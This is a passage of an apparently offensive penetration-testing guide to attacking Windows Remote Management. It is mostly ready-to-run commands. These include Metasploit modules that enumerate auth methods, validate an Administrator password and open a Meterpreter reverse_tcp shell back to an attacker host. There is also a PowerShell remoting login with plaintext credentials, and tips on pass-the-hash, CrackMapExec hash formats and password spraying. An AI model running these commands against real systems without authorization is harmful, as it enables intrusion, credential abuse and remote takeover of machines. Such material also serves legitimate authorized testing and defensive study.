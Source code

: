 ```
C:\Users\Public\winPEASx64.exe
```

Metasploit route (scanning and shell)
```
msfconsole -q

# Discover auth methods
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS <TARGET>
set RPORT 5985
set SSL false
run

# Validate credentials
use auxiliary/scanner/winrm/winrm_login
set RHOSTS <TARGET>
set USERNAME Administrator
set PASSWORD Passw0rd!
set RPORT 5985
set SSL false
run

# Get Meterpreter via WinRM
use exploit/windows/winrm/winrm_script_exec
set RHOSTS <TARGET>
set USERNAME Administrator
set PASSWORD Passw0rd!
set RPORT 5985
set SSL false
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_KALI_IP>
set LPORT 4444
run
```

Windows-native PowerShell remoting (if you have a Windows box)
```
# From a Windows host:
$sec = ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('corp.local\john.doe', $sec)
Enter-PSSession -ComputerName <TARGET> -Credential $cred
# or HTTPS
Enter-PSSession -ComputerName <TARGET> -UseSSL -Port 5986 -Credential $cred
```

## Practical tips
- Credentials vs hashes:
  - Evil-WinRM supports NTLM pass-the-hash with -H (NT hash only).
  - CrackMapExec expects --hashes 'LMHASH:NTHASH' format; LM can be the well-known null LM hash if unknown.
- Domain vs local:
  - Use -d 'DOMAIN' in Evil-WinRM/CrackMapExec for domain accounts.
  - For local accounts, either prefix .\ (e.g., .\Administrator) or omit -d.
- HTTPS endpoints:
  - Use -S (Evil-WinRM) and set RPORT 5986; self-signed certs are common and typically ignored by tools.
- Permissions:
  - Administrative rights usually required for full remoting. “Remote Management Users” group may allow limited command execution.
- Spraying safety:
  - Respect account lockout policies; throttle attempts and use common-sense timing.
- Quoting:
  - Wrap complex passwords in single quotes in your shell to avoid special character expansion.